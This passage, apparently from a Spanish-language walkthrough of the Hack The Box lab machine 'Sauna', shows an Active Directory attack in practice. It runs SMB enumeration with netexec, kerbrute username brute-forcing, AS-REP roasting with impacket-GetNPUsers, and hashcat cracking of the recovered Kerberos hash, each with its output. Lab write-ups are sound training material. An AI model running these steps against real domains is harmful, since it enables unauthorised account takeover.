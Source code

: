 ~~~bash
sudo netexec smb 10.10.10.175 -u 'as' -p '' --shares
SMB         10.10.10.175    445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [-] EGOTISTICAL-BANK.LOCAL\as: STATUS_LOGON_FAILURE
~~~
Con las dos formas probadas, no se obtuvo nada de información posible.
Ahora, revisando la enumeración de kerbrute se pudo encontrar un usuario valido.
~~~bash
./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/10/25 - Ronnie Flathers @ropnop

2025/10/10 18:06:40 >  Using KDC(s):
2025/10/10 18:06:40 >   10.10.10.175:88

2025/10/10 18:07:18 >  [+] VALID USERNAME:       administrator@EGOTISTICAL-BANK.LOCAL
2025/10/10 18:10:53 >  [+] VALID USERNAME:       hsmith@EGOTISTICAL-BANK.LOCAL
2025/10/10 18:11:26 >  [+] VALID USERNAME:       Administrator@EGOTISTICAL-BANK.LOCAL
2025/10/10 18:13:27 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2025/10/10 18:33:26 >  [+] VALID USERNAME:       Fsmith@EGOTISTICAL-BANK.LOCAL
~~~
Lo que hago es añadir a todos los usuarios en un archivo.

### Asproast
lo primero que hago probar un ataque asproast.
~~~bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:2d<SNIP>44
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
~~~
Con esto se pudo obtener un hash del usuario fsmith, al intentar el descifrado de esta se nos otorgo una contraseña que vale la pena probar.
~~~bash
hashcat -m 18200 hash_smith /usr/share/wordlists/rockyou.txt                   
<SNIP>
* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:2d<SNIP>44:T<SNIP>3
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:2d7296e...8aae44
Time.Started.....: Fri Oct 10 18:37:05 2025 (14 secs)
Time.Estimated...: Fri Oct 10 18:37:19 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   764.2 kH/s (0.72ms) @ Accel:256 Loops:1 Thr:1 Vec:8
~~~